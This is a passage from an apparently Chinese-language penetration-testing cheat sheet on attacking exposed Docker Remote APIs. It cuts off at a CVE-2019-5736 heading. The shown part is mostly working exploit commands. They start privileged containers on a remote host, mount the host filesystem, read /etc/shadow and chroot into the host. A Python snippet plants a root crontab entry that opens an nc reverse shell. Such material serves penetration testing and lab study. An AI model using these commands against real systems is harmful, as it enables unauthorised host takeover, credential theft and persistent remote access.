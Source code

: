 - 相关文章
    - [新姿势之Docker Remote API未授权访问漏洞分析和利用](https://wooyun.js.org/drops/%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8.html)
    - [Docker Remote API未授权访问漏洞复现](https://zgao.top/docker-remote-api%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
    - [Docker daemon api 未授权访问漏洞](https://mp.weixin.qq.com/s/sPNEQ5n0rQEspTi7UescLg)
    - [针对暴露Docker.Sock的攻击总结](https://mp.weixin.qq.com/s/65XvaD_U3gkwzjXzrrwOpw)

- POC | Payload | exp
    - `http://[ip]:2375/version`
        ```bash
        docker -H tcp://[IP]:2375 version
        docker -H tcp://[IP]:2375 ps

        docker -H tcp://[IP] run -it --privileged=true busybox sh
        fdisk -l
        mkdir /aaa
        mount /dev/dm-0 /aaa

        或

        docker -H tcp://xx.xx.xx.xx:2375 run -it -v /:/mnt busybox sh
        cd /mnt
        ls

        或

        docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
        cat /mnt/etc/shadow
        chroot /mnt

        # 拿下后直接写 crontab 即可
        ```
    - [netxfly/docker-remote-api-exp](https://github.com/netxfly/docker-remote-api-exp)
    - [Tycx2ry/docker_api_vul](https://github.com/Tycx2ry/docker_api_vul)
    - [docker daemon api 未授权访问漏洞](https://github.com/vulhub/vulhub/blob/master/docker/unauthorized-rce/README.zh-cn.md)
        ```py
        import docker

        client = docker.DockerClient(base_url='http://your-ip:2375/')
        data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc 反弹地址 反弹端口 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
        ```

---

### 容器服务缺陷引起

**CVE-2019-5736 漏洞逃逸**
- 概述
